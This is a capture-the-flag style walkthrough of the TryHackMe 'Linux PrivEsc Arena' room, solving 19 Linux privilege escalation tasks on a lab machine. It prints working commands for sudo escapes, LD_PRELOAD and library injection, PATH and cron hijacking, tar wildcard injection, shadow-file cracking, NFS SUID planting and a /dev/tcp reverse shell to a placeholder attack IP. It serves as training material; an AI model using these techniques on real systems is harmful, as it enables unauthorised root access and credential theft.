<div align="center">



</div>

## 📌 Overview

Linux PrivEsc Arena is a TryHackMe room built around a deliberately vulnerable Debian machine. The entire point of the room is to practice every major Linux privilege escalation technique in one place — not just read about them, but actually run them against a real target. You SSH in as a low-privilege user named TCM and your job for every task is the same: become root. The technique changes every time.

What makes this room valuable is the range. Kernel exploits, stored credentials in config files and history, weak file permissions, SSH key theft, sudo misconfigurations, LD_PRELOAD injection, SUID binary abuse in three different forms, cron job exploitation in three different forms, Linux capabilities, and NFS root squashing. By the time you finish all nineteen tasks you have touched every category that comes up in real privilege escalation assessments.

---

## 🛠 Tools Used

```
ssh                         → initial access
sudo -l                     → sudo permission enumeration
LinPEAS / LinEnum           → automated privilege escalation enumeration
linux-exploit-suggester     → kernel CVE detection
strace                      → SUID binary analysis
john                        → password hash cracking
unshadow                    → /etc/passwd + /etc/shadow combination
gcc                         → compiling malicious shared libraries
netcat                      → reverse shell listener
GTFOBins                    → sudo and SUID escape reference
```

---

## 🎯 Target Information

| Field      | Value                        |
| ---------- | ---------------------------- |
| Platform   | TryHackMe                    |
| Room       | Linux PrivEsc Arena          |
| Target IP  | 10.113.185.14                |
| User       | TCM                          |
| Password   | Hacker123                    |
| OS         | Debian Linux — Kernel 2.6.32 |
| Tasks      | 19 / 19                      |
| Goal       | Root on every task           |

---

## 🧭 Walkthrough

### Step 1 — Initial Access (SSH)

**Goal:** Land a shell on the target as the low-privilege user TCM.

The room provides credentials and an IP. Connect via SSH:

```bash
ssh TCM@10.113.185.14
```



The connection succeeds and we are on the machine as TCM. Every privilege escalation technique in this room starts from this exact position — a regular user with no special permissions.

---

### Step 2 — Enumeration

**Goal:** Map every possible attack vector before touching any exploit.

Running automated tools first gives a complete picture of the machine — sudo permissions, SUID binaries, cron jobs, writable files, capabilities, and NFS exports — all at once.

#### sudo -l — What Can TCM Run as Root?

The very first manual check on any Linux box is `sudo -l`. This lists every binary TCM can run as root without a password:

```bash
sudo -l
```





TCM can run find, nano, vim, man, awk, less, ftp, nmap, apache2 and more as root with no password. The `env_keep+=LD_PRELOAD` line in the Defaults section is its own escalation vector — covered in Task 10.

#### LinEnum — SUID Binaries

SUID binaries run as their owner regardless of who executes them. If owned by root with the SUID bit set, they run as root for anyone:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```



The interesting ones from this list are `suid-so`, `suid-env`, `suid-env2`, and `exim-4.84-3`. Everything else is a standard system binary with expected SUID.

#### LinEnum — Cron Jobs

```bash
cat /etc/crontab
```



Two scripts run as root every minute: `overwrite.sh` and `/usr/local/bin/compress.sh`. The crontab PATH starts with `/home/user` — a directory we can write to. That is a PATH hijacking opportunity. The compress.sh script runs `tar` with a wildcard — a wildcard injection opportunity.

#### LinEnum — Writable Sensitive Files



`/etc/shadow` is world-readable. Normally restricted to root only — being able to read it means we can extract every password hash on the system including root's.

#### LinPEAS — NFS Exports





The `/tmp` directory is exported via NFS with `no_root_squash`. This means root on the attacking machine is treated as root on the NFS share — no privilege mapping. This is Task 19.

---

### Task 3 — Kernel Exploit (DirtyCow)

**Goal:** Escalate to root by exploiting a kernel race condition vulnerability.

#### Detection

The `linux-exploit-suggester` tool reads the kernel version and cross-references it against known local privilege escalation CVEs:

```bash
./linux-exploit-suggester.sh
```



The kernel is version 2.6.32 on Debian x86_64. The tool surfaces DirtyCow — CVE-2016-5195. A race condition in the copy-on-write memory mechanism that allows any local user to write to read-only memory mappings.

#### Exploitation

DirtyCow races two threads — one mapping a read-only file into memory using copy-on-write, one writing to that mapping before the kernel can protect it. It overwrites `/usr/bin/passwd` with a root shell binary:

```bash
./c0w
```



The exploit prints its progress, backs up `/usr/bin/passwd` to `/tmp/bak`, overwrites it using the race condition, then runs it. `whoami` confirms root.

---

### Task 4 — Stored Passwords (Config Files)

**Goal:** Find plaintext credentials stored in a VPN configuration file.

#### Detection

VPN clients need to authenticate automatically — credentials are stored on disk. TCM's home directory contains a VPN config file pointing to an external auth file:

```bash
cat /etc/openvpn/auth.txt
```



The auth file contains plaintext credentials in a file readable by TCM.

#### Exploitation

Credentials found in config files are always tested for reuse against root:

```bash
su root
```

This is why storing credentials in plaintext config files is dangerous — one readable file becomes full system compromise.

---

### Task 5 — Stored Passwords (History)

**Goal:** Find credentials typed directly into terminal commands and saved in bash history.

#### Detection

Bash records every command into `~/.bash_history`. Users sometimes type passwords as command-line arguments:

```bash
history
```



The history shows a mysql command with `-ppassword123` — the password passed directly on the command line in plaintext and saved to history.

#### Exploitation

```bash
su root
```

Enter `password123`. The password works and we have a root shell. History files are almost never cleared in real environments.

---

### Task 6 — Weak File Permissions

**Goal:** Read /etc/shadow, crack the root hash, and authenticate as root.

#### Detection

`/etc/shadow` normally has permissions `640` — readable only by root and the shadow group. If world-readable, any user can extract and crack every password hash:

```bash
cat /etc/shadow
```



The file is readable. The root entry is visible at the top with its full SHA-512 hash.

#### Exploitation

Copy both files to the attack machine and use `unshadow` to combine them into a format John the Ripper accepts:

```bash
cp /etc/passwd /tmp/passwd.txt
cp /etc/shadow /tmp/shadow.txt
unshadow passwd.txt shadow.txt > unshadowed.txt
```



```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```



John cracks the root hash. Use the cracked password with `su root`:



Root shell confirmed.

---

### Task 7 — SSH Keys

**Goal:** Find an exposed SSH private key for root and use it to authenticate directly.

#### Detection

LinEnum flags an interesting backup directory:



A manual find confirms the key location:

```bash
find / -name id_rsa 2>/dev/null
```



Navigating to the backup directory confirms the key is there and readable by TCM:



#### Exploitation

Copy the key to the attack machine, set correct permissions, and connect:

```bash
chmod 600 id_rsa
ssh -i id_rsa root@10.113.185.14
```



The key authenticates successfully and we get a root shell without ever needing root's password.

---

### Task 8 — Sudo (Shell Escaping via GTFOBins)

**Goal:** Use sudo-permitted binaries to escape to a root shell via GTFOBins.

#### Detection

From the `sudo -l` output, TCM can run multiple binaries as root with no password. For each one GTFOBins documents the escape — always check the **Sudo** tab:



#### Exploitation — nano

Open nano as root, press `Ctrl+R` then `Ctrl+X`, then type `reset; sh 1>&0 2>&0`:

```bash
sudo nano
```



The command resets the terminal and redirects a shell back through nano's file descriptors. Root shell confirmed.

#### Exploitation — vim

```bash
sudo vim -c ':!/bin/sh'
```



`:!/bin/sh` executes `/bin/sh` as a child process of vim. Since vim runs via sudo, the shell inherits root privileges.

#### Exploitation — find

```bash
sudo find . -exec /bin/sh \; -quit
```



`-exec /bin/sh` executes a shell for each result. `-quit` stops find after the first so it does not keep spawning shells.

#### Exploitation — nmap

```bash
sudo nmap --interactive
!sh
```



This version of nmap has interactive mode. The `!` prefix executes a shell command — `!sh` drops directly into a root shell.

#### Exploitation — awk

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```



`system("/bin/sh")` calls `/bin/sh` as a subprocess of awk. Since awk was launched via sudo, the shell runs as root.

---

### Task 9 — Sudo (Abusing Intended Functionality)

**Goal:** Use apache2's error output to leak /etc/shadow and crack the root hash.

#### Detection

apache2 cannot escape to a shell — but when given a file path with `-f`, it reads that file and prints the first line as a syntax error. Use this to leak any root-readable file:

```bash
sudo apache2 -f /etc/shadow
```



The error message prints the entire first line of `/etc/shadow` verbatim — the root password hash.

#### Exploitation

Save the hash using single quotes to prevent shell variable expansion, then crack with John:

```bash
john --wordlist=/usr/share/wordlists/nmap.lst hash.txt
```


```bash
su root
```


Root shell confirmed.

---

### Task 10 — Sudo (LD_PRELOAD Injection)

**Goal:** Inject a malicious shared library into a sudo command via the preserved LD_PRELOAD variable.

#### Detection

The `sudo -l` Defaults section contains `env_keep+=LD_PRELOAD`:



`LD_PRELOAD` tells the dynamic linker to load a specified shared library before everything else. Normally sudo strips all environment variables — `env_keep` explicitly preserves `LD_PRELOAD`, meaning we can inject any shared library into any sudo command and have it execute as root.

#### Exploitation

Write a malicious C shared library where `_init()` fires automatically when the library loads, set GID and UID to 0, then spawn bash. Compile and inject:

```bash
gcc -fPIC -shared -o /tmp/shell.so /tmp/shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so find
```



The moment sudo runs `find`, the dynamic linker loads `shell.so` first. `_init()` fires — sets GID and UID to 0 then spawns bash. `whoami` confirms root.

---

### Task 11 — SUID (Shared Object Injection)

**Goal:** Plant a malicious shared library in a path a SUID binary is looking for but cannot find.

#### Detection

`strace` on the SUID binary reveals every file it tries to open. Filtering for failed opens shows the missing library path. The `.config` directory inside our home folder is writable by us — if we create the missing library there, suid-so loads it as root.

#### Exploitation

Create the missing shared library with a malicious constructor, compile it, and run the SUID binary:

```bash
mkdir /home/user/.config
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/.config/libcalc.c
/usr/local/bin/suid-so
```

When suid-so executes as root and loads libcalc.so, the constructor fires immediately — copies bash to `/tmp`, sets the SUID bit, runs it with `-p` to preserve effective UID. Root confirmed.

---

### Task 12 — SUID (Symlinks / CVE-2016-1247 nginx)

**Goal:** Exploit a vulnerable nginx logrotate configuration to achieve root via symlink abuse.

#### Detection

The installed nginx version is below 1.6.2-5+deb8u3, making it vulnerable to CVE-2016-1247. Logrotate runs as root to rotate nginx logs and can be tricked into writing to arbitrary system files via symlink.

#### Exploitation

Switch to www-data and run the exploit script. In a second terminal trigger logrotate as root:

```bash
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log
invoke-rc.d nginx rotate >/dev/null 2>&1
```



The exploit replaces the nginx error log with a symlink pointing at `/etc/ld.so.preload`. When logrotate runs as root and follows the symlink, a malicious shared library path is written to that file — the next privileged process loads it and drops a SUID root shell. Root confirmed.

---

### Task 13 — SUID (Environment Variables #1 — PATH Hijacking)

**Goal:** Create a fake binary that a SUID binary will execute instead of the real one by controlling PATH.

#### Detection

`strings` on the SUID binary reveals it calls `service` without a full path:

```bash
strings /usr/local/bin/suid-env
```



If we put a directory we control at the front of PATH and place a fake `service` binary there, suid-env will run ours as root.

#### Exploitation

```bash
echo '#!/bin/bash' > /tmp/service
echo '/bin/bash -p' >> /tmp/service
chmod +x /tmp/service
export PATH=/tmp:$PATH
/usr/local/bin/suid-env
```



When suid-env calls `service`, the system finds `/tmp/service` first and executes it as root. Root confirmed.

---

### Task 14 — SUID (Environment Variables #2 — Function Export)

**Goal:** Override an absolute path call in a SUID binary using a bash exported function.

#### Detection

`strings` on suid-env2 shows it calls `/usr/sbin/service` with a full absolute path — PATH hijacking will not work here.

#### Exploitation

Bash executes exported functions before checking the filesystem — even for absolute paths:

```bash
function /usr/sbin/service() { /bin/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2
```



When suid-env2 calls `/usr/sbin/service`, bash finds our exported function first and executes `/bin/bash -p` as root. Root confirmed.

---

### Task 15 — Capabilities

**Goal:** Abuse a Linux capability granted to Python to call setuid(0) and become root.

#### Detection

LinPEAS surfaces a dangerous capability on Python:



`cap_setuid+ep` means the binary can call `setuid()` to change its UID to any value including 0, and the capability is both Effective and Permitted.

#### Exploitation

Python's `os` module exposes `setuid()` directly:

```bash
python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```



`os.setuid(0)` sets the process UID to root. `os.system("/bin/bash")` spawns bash which inherits that UID. Root confirmed.

---

### Task 16 — Cron (Path Hijacking)

**Goal:** Place a malicious script in a directory that cron searches before the real script location.

#### Detection

The crontab PATH starts with `/home/user` and the cron entry calls `overwrite.sh` without a full path:

```bash
cat /etc/crontab
```



Cron searches `/home/user` first. If we create `overwrite.sh` there, cron runs ours as root.

#### Exploitation

```bash
echo '#!/bin/bash' > /home/user/overwrite.sh
echo 'chmod +s /bin/bash' >> /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh
```

Wait one minute then run `/bin/bash -p` — the SUID bit on bash preserves the effective root UID. Root confirmed.

---

### Task 17 — Cron (Wildcards / tar)

**Goal:** Exploit a tar wildcard in a cron script by creating files named like tar flags.

#### Detection

The compress.sh script runs `tar czf /tmp/backup.tar.gz *` inside `/home/user`. Filenames that start with `--` are interpreted by tar as flags when the wildcard expands:

```bash
cat /usr/local/bin/compress.sh
```



#### Exploitation

Create files named exactly like tar checkpoint flags:

```bash
cd /home/user
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo 'chmod +s /bin/bash' > shell.sh
chmod +x shell.sh
```

When cron runs tar with `*`, it interprets our filenames as its own arguments and executes `shell.sh` as root. Then run `/bin/bash -p`:



Root confirmed.

---

### Task 18 — Cron (File Overwrite)

**Goal:** Overwrite a world-writable cron script that runs as root every minute.

#### Detection

The overwrite.sh script that runs every minute as root has world-writable permissions:

```bash
ls -la /usr/local/bin/
```



Any user can modify this file. We append a reverse shell payload and wait sixty seconds.

#### Exploitation

Set up a listener and append to the script:

```bash
echo 'bash -i >& /dev/tcp/YOUR_ATTACK_IP/4443 0>&1' >> /usr/local/bin/overwrite.sh
```



Within one minute cron runs the modified script as root and the reverse shell connects back. Root confirmed.

---

### Task 19 — NFS Root Squashing

**Goal:** Mount the NFS share as root on the attack machine and plant a SUID binary on the target.

#### Detection

`/etc/exports` shows `/tmp` exported with `no_root_squash` — root on the attack machine becomes root on the NFS share with no privilege mapping:


#### Exploitation

From the attack machine as root, mount the share, copy bash in, and set the SUID bit:

```bash
mkdir /tmp/nfsmount
sudo mount -o rw,vers=3 10.113.185.14:/tmp /tmp/nfsmount
cp /bin/bash /tmp/nfsmount/bash
chmod +s /tmp/nfsmount/bash
```

Back on the target:

```bash
/tmp/bash -p
```



The bash binary in `/tmp` is owned by root with the SUID bit set because we wrote it as root through the NFS share. Running it with `-p` preserves the effective root UID. Root confirmed.

---

## ✅ Room Completed



All 19 tasks completed. Every privilege escalation technique executed successfully from detection through root shell.

---

## 🚀 Attack Chain Summary

```
ssh TCM@10.113.185.14 → low-privilege shell
  ↓
Task 3  → linux-exploit-suggester → DirtyCow CVE-2016-5195 → root
  ↓
Task 4  → /etc/openvpn/auth.txt → plaintext password → su root
  ↓
Task 5  → history → mysql -ppassword123 → su root
  ↓
Task 6  → /etc/shadow world-readable → unshadow + john → su root
  ↓
Task 7  → find id_rsa → /backups/supersecretkeys/id_rsa → ssh -i → root
  ↓
Task 8  → sudo -l → GTFOBins Sudo tab → nano/vim/find/nmap/awk → root
  ↓
Task 9  → sudo apache2 -f /etc/shadow → hash leaked → john → su root
  ↓
Task 10 → env_keep+=LD_PRELOAD → malicious .so → sudo LD_PRELOAD= → root
  ↓
Task 11 → strace suid-so → missing libcalc.so → gcc inject → root
  ↓
Task 12 → nginx CVE-2016-1247 → nginxed-root.sh → logrotate symlink → root
  ↓
Task 13 → strings suid-env → service no full path → PATH=/tmp:$PATH → root
  ↓
Task 14 → strings suid-env2 → full path → bash function export override → root
  ↓
Task 15 → python2.6 cap_setuid+ep → os.setuid(0) → root
  ↓
Task 16 → crontab PATH=/home/user → overwrite.sh in /home/user → root
  ↓
Task 17 → tar wildcard → --checkpoint-action filenames → shell.sh as root
  ↓
Task 18 → overwrite.sh world-writable → append reverse shell → root
  ↓
Task 19 → NFS no_root_squash → mount /tmp → chmod +s bash → root
```

---

## 📌 Conclusion

* **sudo -l is always the first check** — it costs one command and can hand you root immediately. Every binary in that list is a potential escape via GTFOBins. Always match the GTFOBins tab to how you found the binary: Sudo tab for sudo -l findings, SUID tab for find -perm findings.

* **env_keep+=LD_PRELOAD is a critical misconfiguration** — most people see it in sudo -l output and move on. It means you can inject any code into any sudo command. Write a shared library with a constructor that sets UID to 0, compile with `-fPIC -shared`, preload it.

* **strace is the right tool for SUID binary analysis** — when you find a SUID binary and do not know what it does, strace it and filter for open and access calls. Missing shared libraries appear as ENOENT errors. That missing path is your injection point.

* **Cron wildcards with tar are exploitable whenever you control the directory** — filenames get expanded by the shell before tar sees them. A filename starting with `--` is read as a flag. `--checkpoint-action=exec=` lets you run any command. This works on any tar command using `*` in a writable directory.


---

This work is part of **FuzzRaiders**' structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability and methodological rigor.

Happy hacking 🚀

<div align="center">


</div>